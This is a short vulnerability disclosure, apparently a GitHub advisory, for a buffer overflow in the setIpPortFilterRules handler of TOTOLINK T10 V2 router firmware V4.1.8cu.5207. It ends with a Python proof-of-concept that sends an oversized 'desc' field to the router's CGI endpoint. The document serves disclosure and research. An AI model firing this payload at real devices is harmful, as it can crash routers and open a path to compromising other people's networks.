 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://totolink.com.my/products/t10/

## Affected version

T10 V2_Firmware V2_V4.1.8cu.5207

## Vulnerability details

In the T10 V2_Firmware V2_V4.1.8cu.5207 firmware has a buffer overflow vulnerability in the `setIpPortFilterRules` function. The `v9` variable receives the `desc` parameter from a POST request. However, since the user can control the input of `desc`, the `strcpy` can cause a buffer overflow vulnerability.

![image-20240902131425613](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902131425613.png)

![image-20240902130934198](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902130934198.png)

![image-20240902130952204](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902130952204.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setIpPortFilterRules",
"addEffect":9,
"ip":"1",
"sPort":"1",
"ePort":"1",
"desc":"b"*0x1000,
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721015356613](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015356613.png)
